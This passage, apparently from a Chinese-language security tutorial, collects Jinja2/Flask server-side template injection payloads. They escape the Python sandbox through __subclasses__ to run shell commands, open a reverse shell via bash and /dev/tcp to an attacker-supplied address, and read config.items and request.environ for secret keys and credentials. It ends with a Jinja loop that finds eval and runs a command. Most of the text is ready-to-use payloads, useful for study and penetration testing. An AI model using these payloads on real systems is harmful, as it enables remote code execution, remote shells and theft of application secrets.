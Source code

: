 思路和任意文件读取非常类似 , 仅需要拿到 os 模块就可以了 可用payload如下

```javascript
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()

# eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

复制

##### **反弹shell**

```javascript
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i >& /dev/tcp/你的服务器地址/端口 0>&1').read()
```

复制

这个 Payload 不能直接放在 URL 中执行 , 因为 `&` 的存在会导致 URL 解析出现错误 可以使用 BurpSuite 等工具构造数据包再发送

![](https://ask.qcloudimg.com/http-save/yehe-8581257/2a7321a2aee82c4f143e92ebf5bb70a9.png)

##### **其他**

- `request.environ` 一个与服务器环境相关的对象字典 . 访问该字典可以拿到很多你期待的信息

![](https://ask.qcloudimg.com/http-save/yehe-8581257/3bd78a4499adaf9d23080bdc602f42f4.png)

- `config.items` 一个类字典的对象 , 包含了所有应用程序的配置值 在大多数情况下 , 它包含了比如[数据库](https://cloud.tencent.com/solution/database?from_column=20065&from=20065)链接字符串 , 连接到第三方的凭证 , SECRET_KEY等敏感值

![](https://ask.qcloudimg.com/http-save/yehe-8581257/5f234f37d492857f605d0530b3c3f196.png)

- 一个小脚本

```javascript
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //poppen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
